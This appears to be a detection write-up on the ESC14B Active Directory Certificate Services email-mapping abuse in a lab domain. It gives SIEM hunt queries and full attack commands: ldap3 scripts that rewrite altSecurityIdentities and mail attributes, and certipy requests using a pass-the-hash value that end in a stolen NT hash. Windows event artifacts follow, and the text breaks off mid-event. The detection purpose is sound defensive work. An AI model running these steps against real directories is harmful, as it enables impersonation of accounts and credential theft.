

# ESC14B (email)


# Sources:

[https://posts.specterops.io/adcs-esc14-abuse-technique-333a004dc2b9#4a82](https://posts.specterops.io/adcs-esc14-abuse-technique-333a004dc2b9#4a82)

# Hunts


## Winlogbeat

### Kerberos auth error “auth_krb_ap_err_user_to_user_required”

```jsx
winlog.event_id:(4768)  
AND winlog.event_data.CertSerialNumber:* 
AND winlog.event_data.Status:("0x42")
```

### Request and issuance of a certificate with RFC822 (with email) in SubjectAlternativeName

```jsx
winlog.event_id:(4887) AND winlog.event_data.SubjectAlternativeName:(*RFC822*)
```

### Load of vulnerable template(flag do not use SID extension CT_FLAG_NO_SECURITY_EXTENSION and allow auth)

```jsx
winlog.event_id:4898 AND 
winlog.event_data.TemplateContent:*CT_FLAG_NO_SECURITY_EXTENSION* AND 
(winlog.event_data.TemplateContent:
            (
         *1.3.6.1.5.5.7.3.2* OR 
         *1.3.6.1.5.2.3.4* OR 
         *1.3.6.1.4.1.311.20.2.2* OR 
         *2.5.29.37.0*
      ) OR 
      (NOT winlog.event_data.TemplateContent:/.+pKIExtendedKeyUsage =. [0-9]\.[0-9]\.[0-9].+/)
)

```

### Change of email not from administrator

```sql
winlog.event_id:(5136) 
AND winlog.event_data.AttributeLDAPDisplayName:(mail) 
AND -winlog.event_data.SubjectUserName:(_your_admins_)

```

### Certipy artifact  - AES256-CTS-HMAC-SHA1-96 +AES128-CTS-HMAC-SHA1-96 in 4768 TGT request

```jsx
{
  "query": {
    "bool": {
      "must": [{ "query_string": {"query": "winlog.event_id:4768 AND winlog.event_data.PreAuthType:16"} }],
      "filter": [{ "match_phrase": {
        "winlog.event_data.ClientAdvertizedEncryptionTypes": "\n\t\tAES256-CTS-HMAC-SHA1-96\n\t\tAES128-CTS-HMAC-SHA1-96"
        }}]
    }
  }
}

```

# Commands

## Short version

```jsx
#Prepare template with E-mail requirement
#On DC:
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\Kdc' -Name 'StrongCertificateBindingEnforcement' -PropertyType DWORD -Value 1 -Force
certutil -dstemplate ESC14B msPKI-Enrollment-Flag +0x80000

#Preape altSecurityIdentities in RFC822 form for viserys.targaryen: X509:<RFC822>viserys.targaryen@essos.local
python esc14b_prereq.py

#Change mail attribute for khal.drogo to 'viserys.targaryen@essos.local
python esc14b_change_mail_attr.py

#Request certificate for khal.drogo
certipy  req -username "khal.drogo@essos.local" -hashes "739120ebc4dd940310bc4bb5c9d37021" -dc-ip '192.168.56.12' -web  -target "braavos.essos.local" -ca 'ESSOS-CA' -template 'ESC14B' -debug

#Authentication as 'viserys.targaryen' with received certificate
certipy auth -pfx 'khal.drogo.pfx' -domain "essos.local" -dc-ip 192.168.56.12 -username 'viserys.targaryen'
```

## Preparation

```jsx
 New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\Kdc' -Name 'StrongCertificateBindingEnforcement' -PropertyType DWORD -Value 1 -Force
```

### Prepare template that requires e-mail



### Assign flag *CT_FLAG_NO_SECURITY_EXTENSION*

```jsx
certutil -dstemplate ESC14B msPKI-Enrollment-Flag +0x80000
```

### Write altSecurityIdentities attribute in X509:<RFC822>viserys.targaryen@essos.local format for viserys.targaryen

python esc14b_prereq.py

```jsx
import ldap3
server = ldap3.Server('192.168.56.12')
victim_dn = "CN=viserys.targaryen,CN=Users,DC=essos,DC=local"
attacker_username = "essos.local\\missandei"
attacker_password = "fr3edom"

conn = ldap3.Connection(
server=server,
user=attacker_username,
password=attacker_password,
authentication=ldap3.NTLM
)
conn.bind()

conn.modify(
victim_dn,
{'altSecurityIdentities':[(ldap3.MODIFY_REPLACE, 'X509:<RFC822>viserys.targaryen@essos.local')]}
)
conn.unbind()

```

```jsx
python esc14b_prereq.py
```

## Write email  of viserys.targaryen for УЗ khal.drogo (viserys.targaryen@essos.local):

```jsx

import ldap3
server = ldap3.Server('192.168.56.12')
victim_dn = "CN=khal.drogo,CN=Users,DC=essos,DC=local"
attacker_username = "essos.local\\missandei"
attacker_password = "fr3edom"

conn = ldap3.Connection(
server=server,
user=attacker_username,
password=attacker_password,
authentication=ldap3.NTLM
)
conn.bind()

conn.modify(
victim_dn,
{'mail':[(ldap3.MODIFY_REPLACE, 'viserys.targaryen@essos.local')]}
)

conn.unbind()
```

```jsx
python esc14b_change_mail_attr.py
```

## Request certificate for khal.drogo

```jsx
certipy  req -username "khal.drogo@essos.local" -hashes "739120ebc4dd940310bc4bb5c9d37021" -dc-ip '192.168.56.12' -web  -target "braavos.essos.local" -ca 'ESSOS-CA' -template 'ESC14B' -debug

Certipy v4.8.2 - by Oliver Lyak (ly4k)
[+] Trying to resolve 'braavos.essos.local' at '192.168.56.12'
[+] Generating RSA key
[*] Checking for Web Enrollment on '[http://192.168.56.23:80](http://192.168.56.23/)'
[*] Requesting certificate via Web Enrollment
[*] Request ID is 11
[*] Retrieving certificate for request ID: 11
[*] Got certificate without identification
[*] Certificate has no object SID
[*] Saved certificate and private key to 'khal.drogo.pfx'
```

## Request Kerberos TGT for viserys.targaryen, using certificate for khal.drogo

```jsx
certipy auth -pfx 'khal.drogo.pfx' -domain "essos.local" -dc-ip 192.168.56.12 -username 'viserys.targaryen'

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[!] Could not find identification in the provided certificate
[*] Using principal: viserys.targaryen@essos.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'viserys.targaryen.ccache'
[*] Trying to retrieve NT hash for 'viserys.targaryen'
[*] Got hash for 'viserys.targaryen@essos.local': aad3b435b51404eeaad3b435b51404ee:d96a55df6bef5e0b4d6d956088036097

```

If StrongCertificateBindingEnforcement = 2 - auth is not possible with EventID 39 and Log level “Error”

StrongCertificateBindingEnforcement = 1 -  attack works with EventID 39 and Log level “Warning”

StrongCertificateBindingEnforcement = 0 - attack works with EventID 39 and Log level “Warning”

# Artifacts

## 4887. Certificate Services approved a certificate request and issued a certificate

```jsx
Certificate Services approved a certificate request and issued a certificate.
Request ID:	11
Requester:	ESSOS\khal.drogo
Attributes:	
Disposition:	3
SKI:		c3 1e 43 47 3d 4b c4 98 10 e4 c8 ac 58 8b 0e 38 41 94 13 92
Subject:	CN=khal.drogo, CN=Users, DC=essos, DC=local
Subject Alternative Name:
RFC822 Name=viserys.targaryen@essos.local

Certificate Template:	ESC14B
Serial Number:		640000000b1132a4b75c9c94b200000000000b
Authentication Service:	NTLM
Authentication Level:	Privacy
DCOMorRPC:		DCOM
```

```jsx
- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-Security-Auditing" Guid="{54849625-5478-4994-a5ba-3e3b0328c30d}" /> 
  <EventID>4887</EventID> 
  <Version>1</Version> 
  <Level>0</Level> 
  <Task>12805</Task> 
  <Opcode>0</Opcode> 
  <Keywords>0x8020000000000000</Keywords> 
  <TimeCreated SystemTime="2025-08-14T23:58:38.0201921Z" /> 
  <EventRecordID>75588</EventRecordID> 
  <Correlation ActivityID="{17247173-0d5b-0000-e172-24175b0ddc01}" /> 
  <Execution ProcessID="776" ThreadID="4696" /> 
  <Channel>Security</Channel> 
  <Computer>braavos.essos.local</Computer> 
  <Security /> 
  </System>
- <EventData>
  <Data Name="RequestId">11</Data> 
  <Data Name="Requester">ESSOS\khal.drogo</Data> 
  <Data Name="Attributes" /> 
  <Data Name="Disposition">3</Data> 
  <Data Name="SubjectKeyIdentifier">c3 1e 43 47 3d 4b c4 98 10 e4 c8 ac 58 8b 0e 38 41 94 13 92</Data> 
  <Data Name="Subject">CN=khal.drogo, CN=Users, DC=essos, DC=local</Data> 
  <Data Name="SubjectAlternativeName">RFC822 Name=viserys.targaryen@essos.local</Data> 
  <Data Name="CertificateTemplate">ESC14B</Data> 
  <Data Name="SerialNumber">640000000b1132a4b75c9c94b200000000000b</Data> 
  <Data Name="AuthenticationService">NTLM</Data> 
  <Data Name="AuthenticationLevel">Privacy</Data> 
  <Data Name="DCOMorRPC">DCOM</Data> 
  </EventData>
  </Event>
  
  
  
  
```

## **4898. Certificate Services loaded a template**

```jsx
Certificate Services loaded a template.

ESC14B v100.7 (Schema V2)
1.3.6.1.4.1.311.21.8.4859281.13630112.14961328.1132673.3257550.139.12031393.8552775
CN=ESC14B,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=essos,DC=local

Template Information:
	Template Content:		
flags = 0x2023a (131642)
  CT_FLAG_ADD_EMAIL -- 0x2
  CT_FLAG_PUBLISH_TO_DS -- 0x8
  CT_FLAG_EXPORTABLE_KEY -- 0x10 (16)
  CT_FLAG_AUTO_ENROLLMENT -- 0x20 (32)
  CT_FLAG_ADD_TEMPLATE_NAME -- 0x200 (512)
  CT_FLAG_IS_MODIFIED -- 0x20000 (131072)

msPKI-Private-Key-Flag = 0x1010010 (16842768)
  CTPRIVATEKEY_FLAG_EXPORTABLE_KEY -- 0x10 (16)
  CTPRIVATEKEY_FLAG_ATTEST_NONE -- 0x0
  TEMPLATE_SERVER_VER_2003<<CTPRIVATEKEY_FLAG_SERVERVERSION_SHIFT -- 0x10000 (65536)
  TEMPLATE_CLIENT_VER_XP<<CTPRIVATEKEY_FLAG_CLIENTVERSION_SHIFT -- 0x1000000 (16777216)

msPKI-Certificate-Name-Flag = 0x84000000 (2214592512)
  CT_FLAG_SUBJECT_ALT_REQUIRE_EMAIL -- 0x4000000 (67108864)
  CT_FLAG_SUBJECT_REQUIRE_DIRECTORY_PATH -- 0x80000000 (2147483648)

msPKI-Enrollment-Flag = 0x80029 (524329)
  CT_FLAG_INCLUDE_SYMMETRIC_ALGORITHMS -- 0x1
  CT_FLAG_PUBLISH_TO_DS -- 0x8
  CT_FLAG_AUTO_ENROLLMENT -- 0x20 (32)
  CT_FLAG_NO_SECURITY_EXTENSION -- 0x80000 (524288)

msPKI-Template-Schema-Version = 2

revision = 100

msPKI-Template-Minor-Revision = 7

msPKI-RA-Signature = 0

msPKI-Minimal-Key-Size = 2048

pKIDefaultKeySpec = 1

pKIExpirationPeriod = 1 Years

pKIOverlapPeriod = 6 Weeks

cn = ESC14B

distinguishedName = ESC14B

msPKI-Cert-Template-OID =
  1.3.6.1.4.1.311.21.8.4859281.13630112.14961328.1132673.3257550.139.12031393.8552775

pKIKeyUsage = a0

displayName = ESC14B

templateDescription = User

pKIExtendedKeyUsage =
  1.3.6.1.4.1.311.10.3.4 Encrypting File System
  1.3.6.1.5.5.7.3.4 Secure Email
  1.3.6.1.5.5.7.3.2 Client Authentication

pKIDefaultCSPs =
  Microsoft Enhanced Cryptographic Provider v1.0

msPKI-Supersede-Templates =

msPKI-RA-Policies =

msPKI-RA-Application-Policies =

msPKI-Certificate-Policy =

msPKI-Certificate-Application-Policy =
  1.3.6.1.4.1.311.10.3.4 Encrypting File System
  1.3.6.1.5.5.7.3.4 Secure Email
  1.3.6.1.5.5.7.3.2 Client Authentication

pKICriticalExtensions =
  2.5.29.15 Key Usage

	Security Descriptor:		O:S-1-5-21-1330862731-2240521544-517571234-500G:S-1-5-21-1330862731-2240521544-517571234-519D:AI(OA;;CR;0e10c968-78fb-11d2-90d4-00c04f79dc55;;DU)(A;;LCRPLORC;;;DU)(A;;CCDCLCSWRPWPDTLOSDRCWDWO;;;S-1-5-21-1330862731-2240521544-517571234-500)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;DA)(A;;LCRPLORC;;;AU)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SY)(A;CIID;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1330862731-2240521544-517571234-519)(A;CIID;CCLCSWRPWPLOCRSDRCWDWO;;;DA)

Allow	ESSOS\Domain Users
	Enroll
Allow(0x00020094)	ESSOS\Domain Users
	Read
Allow(0x000f00ff)	ESSOS\Administrator
	Full Control
Allow(0x000f01ff)	ESSOS\Domain Admins
	Full Control
Allow(0x00020094)	NT AUTHORITY\Authenticated Users
	Read
Allow(0x000f01ff)	NT AUTHORITY\SYSTEM
	Full Control
Allow(0x000f01ff)	ESSOS\Enterprise Admins
	Full Control
Allow(0x000f01bd)	ESSOS\Domain Admins
	Full Control

Additional Information:
	Domain Controller:	meereen.essos.local
```

```jsx

- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-Security-Auditing" Guid="{54849625-5478-4994-a5ba-3e3b0328c30d}" /> 
  <EventID>4898</EventID> 
  <Version>0</Version> 
  <Level>0</Level> 
  <Task>12805</Task> 
  <Opcode>0</Opcode> 
  <Keywords>0x8020000000000000</Keywords> 
  <TimeCreated SystemTime="2025-08-14T23:46:06.7952792Z" /> 
  <EventRecordID>73208</EventRecordID> 
  <Correlation ActivityID="{17247173-0d5b-0000-e172-24175b0ddc01}" /> 
  <Execution ProcessID="776" ThreadID="880" /> 
  <Channel>Security</Channel> 
  <Computer>braavos.essos.local</Computer> 
  <Security /> 
  </System>
- <EventData>
  <Data Name="TemplateInternalName">ESC14B</Data> 
  <Data Name="TemplateVersion">100.7</Data> 
  <Data Name="TemplateSchemaVersion">2</Data> 
  <Data Name="TemplateOID">1.3.6.1.4.1.311.21.8.4859281.13630112.14961328.1132673.3257550.139.12031393.8552775</Data> 
  <Data Name="TemplateDSObjectFQDN">CN=ESC14B,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=essos,DC=local</Data> 
  <Data Name="DCDNSName">meereen.essos.local</Data> 
  <Data Name="TemplateContent">flags = 0x2023a (131642) CT_FLAG_ADD_EMAIL -- 0x2 CT_FLAG_PUBLISH_TO_DS -- 0x8 CT_FLAG_EXPORTABLE_KEY -- 0x10 (16) CT_FLAG_AUTO_ENROLLMENT -- 0x20 (32) CT_FLAG_ADD_TEMPLATE_NAME -- 0x200 (512) CT_FLAG_IS_MODIFIED -- 0x20000 (131072) msPKI-Private-Key-Flag = 0x1010010 (16842768) CTPRIVATEKEY_FLAG_EXPORTABLE_KEY -- 0x10 (16) CTPRIVATEKEY_FLAG_ATTEST_NONE -- 0x0 TEMPLATE_SERVER_VER_2003<<CTPRIVATEKEY_FLAG_SERVERVERSION_SHIFT -- 0x10000 (65536) TEMPLATE_CLIENT_VER_XP<<CTPRIVATEKEY_FLAG_CLIENTVERSION_SHIFT -- 0x1000000 (16777216) msPKI-Certificate-Name-Flag = 0x84000000 (2214592512) CT_FLAG_SUBJECT_ALT_REQUIRE_EMAIL -- 0x4000000 (67108864) CT_FLAG_SUBJECT_REQUIRE_DIRECTORY_PATH -- 0x80000000 (2147483648) msPKI-Enrollment-Flag = 0x80029 (524329) CT_FLAG_INCLUDE_SYMMETRIC_ALGORITHMS -- 0x1 CT_FLAG_PUBLISH_TO_DS -- 0x8 CT_FLAG_AUTO_ENROLLMENT -- 0x20 (32) CT_FLAG_NO_SECURITY_EXTENSION -- 0x80000 (524288) msPKI-Template-Schema-Version = 2 revision = 100 msPKI-Template-Minor-Revision = 7 msPKI-RA-Signature = 0 msPKI-Minimal-Key-Size = 2048 pKIDefaultKeySpec = 1 pKIExpirationPeriod = 1 Years pKIOverlapPeriod = 6 Weeks cn = ESC14B distinguishedName = ESC14B msPKI-Cert-Template-OID = 1.3.6.1.4.1.311.21.8.4859281.13630112.14961328.1132673.3257550.139.12031393.8552775 pKIKeyUsage = a0 displayName = ESC14B templateDescription = User pKIExtendedKeyUsage = 1.3.6.1.4.1.311.10.3.4 Encrypting File System 1.3.6.1.5.5.7.3.4 Secure Email 1.3.6.1.5.5.7.3.2 Client Authentication pKIDefaultCSPs = Microsoft Enhanced Cryptographic Provider v1.0 msPKI-Supersede-Templates = msPKI-RA-Policies = msPKI-RA-Application-Policies = msPKI-Certificate-Policy = msPKI-Certificate-Application-Policy = 1.3.6.1.4.1.311.10.3.4 Encrypting File System 1.3.6.1.5.5.7.3.4 Secure Email 1.3.6.1.5.5.7.3.2 Client Authentication pKICriticalExtensions = 2.5.29.15 Key Usage</Data> 
  <Data Name="SecurityDescriptor">O:S-1-5-21-1330862731-2240521544-517571234-500G:S-1-5-21-1330862731-2240521544-517571234-519D:AI(OA;;CR;0e10c968-78fb-11d2-90d4-00c04f79dc55;;DU)(A;;LCRPLORC;;;DU)(A;;CCDCLCSWRPWPDTLOSDRCWDWO;;;S-1-5-21-1330862731-2240521544-517571234-500)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;DA)(A;;LCRPLORC;;;AU)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;SY)(A;CIID;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-1330862731-2240521544-517571234-519)(A;CIID;CCLCSWRPWPLOCRSDRCWDWO;;;DA) Allow ESSOS\Domain Users Enroll Allow(0x00020094) ESSOS\Domain Users Read Allow(0x000f00ff) ESSOS\Administrator Full Control Allow(0x000f01ff) ESSOS\Domain Admins Full Control Allow(0x00020094) NT AUTHORITY\Authenticated Users Read Allow(0x000f01ff) NT AUTHORITY\SYSTEM Full Control Allow(0x000f01ff) ESSOS\Enterprise Admins Full Control Allow(0x000f01bd) ESSOS\Domain Admins Full Control</Data> 
  </EventData>
  </Event>
```

## **4768. A Kerberos authentication ticket (TGT) was requested**

```jsx
A Kerberos authentication ticket (TGT) was requested.

Account Information:
	Account Name:		viserys.targaryen
	Supplied Realm Name:	ESSOS.LOCAL
	User ID:			ESSOS\viserys.targaryen
	MSDS-SupportedEncryptionTypes:	0x27 (DES, RC4, AES-Sk)
	Available Keys:	AES-SHA1, RC4

Service Information:
	Service Name:		krbtgt
	Service ID:		ESSOS\krbtgt
	MSDS-SupportedEncryptionTypes:	0x1F (DES, RC4, AES128-SHA96, AES256-SHA96)
	Available Keys:	AES-SHA1, RC4

Domain Controller Information:
	MSDS-SupportedEncryptionTypes:	0x1F (DES, RC4, AES128-SHA96, AES256-SHA96)
	Available Keys:	AES-SHA1, RC4

Network Information:
	Client Address:		::ffff:192.168.56.200
	Client Port:		40022
	Advertized Etypes:	
		AES256-CTS-HMAC-SHA1-96
		AES128-CTS-HMAC-SHA1-96

Additional Information:
	Ticket Options:		0x40800010
	Result Code:		0x0
	Ticket Encryption Type:	0x12
	Session Encryption Type:	0x12
	Pre-Authentication Type:	16
	Pre-Authentication EncryptionType:	0x0

Certificate Information:
	Certificate Issuer Name:		ESSOS-CA
	Certificate Serial Number:	640000000B1132A4B75C9C94B200000000000B
	Certificate Thumbprint:		F519BC0B7C5248DBD4435CB043C6108FA762F6EC

Ticket information
	Response ticket hash:		n/a
Certificate information is only provided if a certificate was used for pre-authentication.

```

```jsx

- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-Security-Auditing" Guid="{54849625-5478-4994-A5BA-3E3B0328C30D}" /> 
  <EventID>4768</EventID> 
  <Version>2</Version> 
  <Level>0</Level> 
  <Task>14339</Task> 
  <Opcode>0</Opcode> 
  <Keywords>0x8020000000000000</Keywords> 
  <TimeCreated SystemTime="2025-08-15T00:03:58.579682900Z" /> 
  <EventRecordID>91607</EventRecordID> 
  <Correlation /> 
  <Execution ProcessID="680" ThreadID="1188" /> 
  <Channel>Security</Channel> 
  <Computer>meereen.essos.local</Computer> 
  <Security /> 
  </System>
- <EventData>
  <Data Name="TargetUserName">viserys.targaryen</Data> 
  <Data Name="TargetDomainName">ESSOS.LOCAL</Data> 
  <Data Name="TargetSid">S-1-5-21-1330862731-2240521544-517571234-1114</Data> 
  <Data Name="ServiceName">krbtgt</Data> 
  <Data Name="ServiceSid">S-1-5-21-1330862731-2240521544-517571234-502</Data> 
  <Data Name="TicketOptions">0x40800010</Data> 
  <Data Name="Status">0x0</Data> 
  <Data Name="TicketEncryptionType">0x12</Data> 
  <Data Name="PreAuthType">16</Data> 
  <Data Name="IpAddress">::ffff:192.168.56.200</Data> 
  <Data Name="IpPort">40022</Data> 
  <Data Name="CertIssuerName">ESSOS-CA</Data> 
  <Data Name="CertSerialNumber">640000000B1132A4B75C9C94B200000000000B</Data> 
  <Data Name="CertThumbprint">F519BC0B7C5248DBD4435CB043C6108FA762F6EC</Data> 
  <Data Name="ResponseTicket">n/a</Data> 
  <Data Name="AccountSupportedEncryptionTypes">0x27 (DES, RC4, AES-Sk)</Data> 
  <Data Name="AccountAvailableKeys">AES-SHA1, RC4</Data> 
  <Data Name="ServiceSupportedEncryptionTypes">0x1F (DES, RC4, AES128-SHA96, AES256-SHA96)</Data> 
  <Data Name="ServiceAvailableKeys">AES-SHA1, RC4</Data> 
  <Data Name="DCSupportedEncryptionTypes">0x1F (DES, RC4, AES128-SHA96, AES256-SHA96)</Data> 
  <Data Name="DCAvailableKeys">AES-SHA1, RC4</Data> 
  <Data Name="ClientAdvertizedEncryptionTypes">AES256-CTS-HMAC-SHA1-96 AES128-CTS-HMAC-SHA1-96</Data> 
  <Data Name="SessionKeyEncryptionType">0x12</Data> 
  <Data Name="PreAuthEncryptionType">0x0</Data> 
  </EventData>
  </Event>
```

## **4768.** Failure TGT request

```jsx
A Kerberos authentication ticket (TGT) was requested.

Account Information:
	Account Name:		viserys.targaryen
	Supplied Realm Name:	ESSOS.LOCAL
	User ID:			NULL SID
	MSDS-SupportedEncryptionTypes:	-
	Available Keys:	-

Service Information:
	Service Name:		krbtgt/ESSOS.LOCAL
	Service ID:		NULL SID
	MSDS-SupportedEncryptionTypes:	-
	Available Keys:	-

Domain Controller Information:
	MSDS-SupportedEncryptionTypes:	-
	Available Keys:	-

Network Information:
	Client Address:		::ffff:192.168.56.200
	Client Port:		48814
	Advertized Etypes:	-

Additional Information:
	Ticket Options:		0x40800010
	Result Code:		0x42
	Ticket Encryption Type:	0xFFFFFFFF
	Session Encryption Type:	0x2D
	Pre-Authentication Type:	-
	Pre-Authentication EncryptionType:	0x2D

Certificate Information:
	Certificate Issuer Name:		ESSOS-CA
	Certificate Serial Number:	640000000B1132A4B75C9C94B200000000000B
	Certificate Thumbprint:		F519BC0B7C5248DBD4435CB043C6108FA762F6EC

Ticket information
	Response ticket hash:		-
Certificate information is only provided if a certificate was used for pre-authentication.

Pre-authentication types, ticket options, encryption types and result codes are defined in RFC 4120.
```

```jsx
- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-Security-Auditing" Guid="{54849625-5478-4994-A5BA-3E3B0328C30D}" /> 
  <EventID>4768</EventID> 
  <Version>2</Version> 
  <Level>0</Level> 
  <Task>14339</Task> 
  <Opcode>0</Opcode> 
  <Keywords>0x8010000000000000</Keywords> 
  <TimeCreated SystemTime="2025-08-15T00:02:56.496478700Z" /> 
  <EventRecordID>91598</EventRecordID> 
  <Correlation /> 
  <Execution ProcessID="680" ThreadID="1188" /> 
  <Channel>Security</Channel> 
  <Computer>meereen.essos.local</Computer> 
  <Security /> 
  </System>
- <EventData>
  <Data Name="TargetUserName">viserys.targaryen</Data> 
  <Data Name="TargetDomainName">ESSOS.LOCAL</Data> 
  <Data Name="TargetSid">S-1-0-0</Data> 
  <Data Name="ServiceName">krbtgt/ESSOS.LOCAL</Data> 
  <Data Name="ServiceSid">S-1-0-0</Data> 
  <Data Name="TicketOptions">0x40800010</Data> 
  <Data Name="Status">0x42</Data> 
  <Data Name="TicketEncryptionType">0xffffffff</Data> 
  <Data Name="PreAuthType">-</Data> 
  <Data Name="IpAddress">::ffff:192.168.56.200</Data> 
  <Data Name="IpPort">48814</Data> 
  <Data Name="CertIssuerName">ESSOS-CA</Data> 
  <Data Name="CertSerialNumber">640000000B1132A4B75C9C94B200000000000B</Data> 
  <Data Name="CertThumbprint">F519BC0B7C5248DBD4435CB043C6108FA762F6EC</Data> 
  <Data Name="ResponseTicket">-</Data> 
  <Data Name="AccountSupportedEncryptionTypes">-</Data> 
  <Data Name="AccountAvailableKeys">-</Data> 
  <Data Name="ServiceSupportedEncryptionTypes">-</Data> 
  <Data Name="ServiceAvailableKeys">-</Data> 
  <Data Name="DCSupportedEncryptionTypes">-</Data> 
  <Data Name="DCAvailableKeys">-</Data> 
  <Data Name="ClientAdvertizedEncryptionTypes">-</Data> 
  <Data Name="SessionKeyEncryptionType">0x2d</Data> 
  <Data Name="PreAuthEncryptionType">0x2d</Data> 
  </EventData>
  </Event>
  
  
  
```

## **5136. Change mail attribute**

```jsx
A directory service object was modified.
	
Subject:
	Security ID:		ESSOS\missandei
	Account Name:		missandei
	Account Domain:		ESSOS
	Logon ID:		0x6157EE

Directory Service:
	Name:	essos.local
	Type:	Active Directory Domain Services
	
Object:
	DN:	CN=khal.drogo,CN=Users,DC=essos,DC=local
	GUID:	CN=khal.drogo,CN=Users,DC=essos,DC=local
	Class:	user
	
Attribute:
	LDAP Display Name:	mail
	Syntax (OID):	2.5.5.12
	Value:	viserys.targaryen@essos.local
	
Operation:
	Type:	Value Added
	Correlation ID:	{c1badd31-9636-414c-abeb-bb999a5937e5}
	Application Correlation ID:	-
	
	
	
```

```jsx

- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-Security-Auditing" Guid="{54849625-5478-4994-A5BA-3E3B0328C30D}" /> 
  <EventID>5136</EventID> 
  <Version>0</Version> 
  <Level>0</Level> 
  <Task>14081</Task> 
  <Opcode>0</Opcode> 
  <Keywords>0x8020000000000000</Keywords> 
  <TimeCreated SystemTime="2025-08-14T23:36:57.928311800Z" /> 
  <EventRecordID>90602</EventRecordID> 
  <Correlation ActivityID="{03F49C8C-0D5B-0001-E69C-F4035B0DDC01}" /> 
  <Execution ProcessID="680" ThreadID="728" /> 
  <Channel>Security</Channel> 
  <Computer>meereen.essos.local</Computer> 
  <Security /> 
  </System>
- <EventData>
  <Data Name="OpCorrelationID">{C1BADD31-9636-414C-ABEB-BB999A5937E5}</Data> 
  <Data Name="AppCorrelationID">-</Data> 
  <Data Name="SubjectUserSid">S-1-5-21-1330862731-2240521544-517571234-1117</Data> 
  <Data Name="SubjectUserName">missandei</Data> 
  <Data Name="SubjectDomainName">ESSOS</Data> 
  <Data Name="SubjectLogonId">0x6157ee</Data> 
  <Data Name="DSName">essos.local</Data> 
  <Data Name="DSType">%%14676</Data> 
  <Data Name="ObjectDN">CN=khal.drogo,CN=Users,DC=essos,DC=local</Data> 
  <Data Name="ObjectGUID">{F4B7A74C-D25B-49DF-8499-F1757491C47E}</Data> 
  <Data Name="ObjectClass">user</Data> 
  <Data Name="AttributeLDAPDisplayName">mail</Data> 
  <Data Name="AttributeSyntaxOID">2.5.5.12</Data> 
  <Data Name="AttributeValue">viserys.targaryen@essos.local</Data> 
  <Data Name="OperationType">%%14674</Data> 
  </EventData>
  </Event>
```

## StrongCertificateBindingEnforcement =2 (Error).  Attack do not work

### **EventID 39 (Error). The Key Distribution Center (KDC) encountered a user certificate that was valid but could not be mapped to a user in a secure way**

```jsx
The Key Distribution Center (KDC) encountered a user certificate that was valid but could not be mapped to a user in a secure way (such as via explicit mapping, key trust mapping, or a SID). Such certificates should either be replaced or mapped directly to the user via explicit mapping. See https://go.microsoft.com/fwlink/?linkid=2189925 to learn more.

  User: viserys.targaryen
  Certificate Subject: @@@CN=khal.drogo, CN=Users, DC=essos, DC=local
  Certificate Issuer: ESSOS-CA
  Certificate Serial Number: 640000000B1132A4B75C9C94B200000000000B
  Certificate Thumbprint: F519BC0B7C5248DBD4435CB043C6108FA762F6EC

```

```jsx

- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-Kerberos-Key-Distribution-Center" Guid="{3FD9DA1A-5A54-46C5-9A26-9BD7C0685056}" EventSourceName="KDC" /> 
  <EventID Qualifiers="32768">39</EventID> 
  <Version>0</Version> 
  <Level>2</Level> 
  <Task>0</Task> 
  <Opcode>0</Opcode> 
  <Keywords>0x80000000000000</Keywords> 
  <TimeCreated SystemTime="2025-08-15T08:25:17.504837700Z" /> 
  <EventRecordID>7777</EventRecordID> 
  <Correlation /> 
  <Execution ProcessID="0" ThreadID="0" /> 
  <Channel>System</Channel> 
  <Computer>meereen.essos.local</Computer> 
  <Security /> 
  </System>
- <EventData>
  <Data Name="AccountName">viserys.targaryen</Data> 
  <Data Name="Subject">@@@CN=khal.drogo, CN=Users, DC=essos, DC=local</Data> 
  <Data Name="Issuer">ESSOS-CA</Data> 
  <Data Name="SerialNumber">640000000B1132A4B75C9C94B200000000000B</Data> 
